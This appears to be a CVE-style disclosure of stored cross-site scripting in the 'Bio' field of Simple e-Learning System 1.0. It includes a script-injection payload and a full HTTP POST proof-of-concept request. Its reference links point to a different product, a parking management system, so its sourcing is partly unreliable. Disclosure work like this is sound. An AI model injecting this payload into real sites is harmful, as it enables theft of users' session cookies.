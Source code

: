 #### Title: Simple e-Learning System 1.0 Stored Cross-Site Scripting
#### Author: Shekhar Hussain (https://www.linkedin.com/in/shekharcharles)
#### Date: 13.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-simple-e-learning-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/POC.md


#### Description：
####   Simple e-Learning System is vulnerable to Stored cross-site scripting on the profile add deatils page. The "Bio" parameter in 'http://localhost/vcs/claire_blake' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.


#### Payload used:
`"><script>alert(document.cookie)</script>`


 ### POC

```
POST /vcs/claire_blake HTTP/1.1
Host: localhost
Content-Length: 143
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/vcs/claire_blake
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=2vbf8fv8l1iaabtd45grgqt809
Connection: close

firstName=Claire&lastName=Blake&phoneNumber=2147483647&bio=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&profile-updateBtn=Update
```

![image](https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/2.png)

![image](https://github.com/CyberThoth/CVE/blob/6c0df09d4e613d5e10389e35adb11d37643f917f/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Stored)/3.png)
